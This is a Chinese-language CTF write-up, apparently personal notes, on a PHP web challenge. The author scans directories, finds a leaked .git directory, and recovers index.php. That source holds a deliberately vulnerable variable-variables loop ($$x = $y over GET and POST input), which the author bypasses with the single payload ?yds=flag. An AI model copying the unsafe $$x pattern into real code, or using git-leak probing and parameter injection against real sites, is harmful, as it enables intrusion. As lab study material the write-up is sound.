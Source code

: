 ![[Pasted image 20221122163014.png]]

---
首页长这样

![[Pasted image 20221122163031.png]]

炫酷.jpg

既然想不到啥方法，那就扫目录看看八

![[Pasted image 20221122163231.png]]

有`git`目录，有一个`flag.php`

康康`git`泄漏

---
`flag.php`（`lolcat`真好玩QwQ）

![[Pasted image 20221122164101.png]]

---
`index.php`
```php
<?php
include 'flag.php';

$yds = "dog";
$is = "cat";
$handsome = 'yds';

foreach($_POST as $x => $y){
    $$x = $y;
}

foreach($_GET as $x => $y){
    $$x = $$y;
}

foreach($_GET as $x => $y){
    if($_GET['flag'] === $x && $x !== 'flag'){
        exit($handsome);
    }
}

if(!isset($_GET['flag']) && !isset($_POST['flag'])){
    exit($yds);
}

if($_POST['flag'] === 'flag'  || $_GET['flag'] === 'flag'){
    exit($is);
}

echo "the flag is: ".$flag;
```

emmm，虽然但是，这个不是让`$_GET['yds']='flag'`就绕过了嘛，感觉有点像脑筋急转弯.jpg
```php
?yds=flag
```
![[Pasted image 20221123004833.png]]

#Web #PHP #代码审计 #可变变量 #目录扫描 #git泄露 